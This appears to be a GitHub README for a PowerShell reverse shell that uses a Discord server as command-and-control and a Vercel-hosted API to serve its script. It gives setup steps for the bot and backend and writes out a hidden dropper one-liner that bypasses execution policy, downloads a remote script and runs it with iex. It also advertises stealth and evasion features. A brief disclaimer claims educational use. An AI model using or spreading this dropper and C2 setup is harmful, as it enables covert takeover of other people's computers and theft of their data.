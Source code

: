 ![banner](src/banner.png)
# X Shell: Discord-Based Reverse Shell

## 🚨 Disclaimer

**WARNING:** This tool is strictly for educational and authorized penetration testing purposes. Unauthorized use is illegal and may result in criminal prosecution. Always obtain explicit permission before testing.

## Quick Start Guide

### Prerequisites
- Discord server
- Discord bot with channel management permissions
- Vercel account for API deployment

### 1. Create Discord Bot
1. Visit [Discord Developer Portal](https://discord.com/developers/applications)
2. Create new application
3. Generate bot token
4. Configure bot permissions:
   - Manage Channels
   - Read Messages
   - Send Messages

### 2. Deploy Backend API
1. Fork the repository
2. Deploy to Vercel
3. Configure `index.js`:
   - Set authentication tokens on lines 28-29
   - Update PowerShell script serving on lines 31 and 36
4. Note the generated Vercel URL

### 3. Prepare Deployment
1. Update the script with:
   - Bot token (`$t`)
   - Server ID (`$s`)
   - Category ID (`$categoryID`)

### 4. Execute Dropper
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content"
```

## Overview

X Shell is a PowerShell-based reverse shell that leverages a Discord server as its command-and-control (C2) infrastructure. It dynamically creates dedicated Discord channels for each user, enabling organized command execution and response tracking.

## Features

- 🔒 Stealthy PowerShell dropper mechanism
- 🤖 Discord-based command and control
- 🔐 Dynamic channel creation for each session
- 🌐 Remote script retrieval via API

## Architecture

### Components

1. **PowerShell Dropper**
   - Bypasses Windows execution restrictions
   - Retrieves main script from remote API
   - Minimal footprint for evasion

2. **Backend API**
   - Authenticates and serves scripts
   - Manages script deployment
   - Provides secure script retrieval

3. **Discord C2 Server**
   - Manages communication channels
   - Executes received PowerShell commands
   - Returns command output

## Security Considerations

- Implement strict authentication
- Rotate tokens regularly
- Monitor and log all activities
- Ensure compliance with legal standards

## Contributing

1. Fork the repository
2. Create feature branch
3. Commit changes
4. Push and submit pull request

## Additional Resources

- [Discord Server Template](https://discord.new/AFkzNqmAdmex)
- Preconfigured server with logging channels

## License

[Specify your license here]

## Contact

[Your contact information or support channels]
